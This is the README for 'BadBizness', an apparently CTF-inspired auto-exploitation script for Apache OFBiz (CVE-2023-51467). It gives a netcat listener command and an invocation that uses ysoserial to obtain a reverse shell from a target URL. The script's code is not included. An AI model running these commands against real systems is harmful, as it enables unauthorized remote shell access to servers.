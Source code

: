 # BadBizness
Automatic exploitation script for the Java web framework [OF Biz](https://ofbiz.apache.org/) under CVE-2023-51467. Inspired by the HackTheBox machine [Bizness](https://app.hackthebox.com/machines/582).

## Usage and Example
Setup a listener to catch the shell with your preferred method. Here is a netcat example:
```
nc -nlvp 1337
```
Execute the script:
```
python3 badbizness.py [path to ysoserial-all.jar] [TARGET BASE URL] [LISTENER IP] [LISTENER PORT]

python3 badbizness.py /home/twopoint/ysoserial-all.jar http://example.com:1337 10.10.10.10. 1337
```
This script also requires the tool [ysoserial](https://github.com/frohoff/ysoserial/releases) and OpenJDK version 11.
